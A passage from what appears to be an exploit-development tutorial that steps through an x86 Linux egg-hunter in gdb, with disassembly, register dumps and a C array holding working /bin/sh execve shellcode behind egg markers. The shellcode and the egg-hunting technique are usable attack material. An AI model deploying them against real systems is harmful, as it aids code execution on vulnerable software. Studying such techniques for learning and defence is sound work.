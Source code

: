 ```nasm
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
=> 0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
   0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
0x0804a081 in egg_hunter ()
(gdb)
```


Taking a look at the source code, is is clear that the memory address `0x804a0a0` pointed to the first `EGG` at the beginning of the shellcode.

After the `scas` instruction added four bytes to `0x804a0a0`, `EDI` has now been incremented to `0x804a0a4` and currently points to the second `EGG` before the start of the shellcode.

```c
unsigned char second_stage[] = \
                                EGG
                                EGG
                                "\x31\xc0\x50\x68\x6e\x2f\x73\x68"
                                "\x68\x2f\x2f\x62\x69\x89\xe3\x50"
                                "\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; // /bin/sh execve-stack
```


The same `DWORD` string comparison is conducted between the value in the `EAX` register, which is the `egg`, `0x534b534b`, and the value in the memory address currently pointed to by `EDI`, which is `0x4b	0x53	0x4b	0x53`. As this is a match, the zero flag is set and process will ignore the conditional jump instruction and move on to the following `jmp edi` instruction.

After the string comparison occurred, the `scas` instruction adds four bytes to the memory location pointed to by `EDI`. As such, `EDI` has been updated from `0x804a0a4` to `0x804a0a8` and now points to the beginning of the shellcode after the two egg identifiers.

```nasm
$4049 = 0x534b534b
$4050 = 0x804a0a4
$4051 = 0x804a0a0
$4052 = 0x804a0a4
0x804a0a4 <second_stage+4>:	0x4b	0x53	0x4b	0x53
eflags         0x246	[ PF ZF IF ]
Dump of assembler code for function egg_hunter:
   0x0804a060 <+0>:	cld    
   0x0804a061 <+1>:	xor    eax,eax
   0x0804a063 <+3>:	xor    edx,edx
   0x0804a065 <+5>:	or     dx,0xfff
   0x0804a06a <+10>:	inc    edx
   0x0804a06b <+11>:	lea    ebx,[edx+0x4]
   0x0804a06e <+14>:	mov    eax,0x21
   0x0804a073 <+19>:	int    0x80
   0x0804a075 <+21>:	cmp    al,0xf2
   0x0804a077 <+23>:	je     0x804a065 <egg_hunter+5>
   0x0804a079 <+25>:	mov    eax,0x534b534b
   0x0804a07e <+30>:	mov    edi,edx
   0x0804a080 <+32>:	scas   eax,DWORD PTR es:[edi]
   0x0804a081 <+33>:	jne    0x804a06a <egg_hunter+10>
=> 0x0804a083 <+35>:	scas   eax,DWORD PTR es:[edi]
   0x0804a084 <+36>:	jne    0x804a06a <egg_hunter+10>
   0x0804a086 <+38>:	jmp    edi
   0x0804a088 <+40>:	add    BYTE PTR [eax],al
End of assembler dump.
```